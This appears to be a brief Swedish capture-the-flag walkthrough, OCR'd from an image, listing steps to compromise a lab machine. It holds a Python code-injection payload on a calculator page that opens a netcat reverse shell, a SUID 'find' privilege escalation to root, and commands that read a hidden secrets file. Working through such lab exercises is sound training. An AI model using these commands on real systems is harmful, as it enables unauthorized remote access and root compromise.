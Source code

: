 1. surfa till ip:n, kolla robots.txt, läs src eller ta bord div:en
2. gå till /calc...
3. Gör ngt i stil med:
  __import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc localhost 60264 >/tmp/f')
4. cd ~ && ls -Ral
5. gå till den gömda mappen
6. ./find . -exec /bin/sh -p \; -quit
7. cd /root && ls -al
8. cat .hidden_secrets.txt
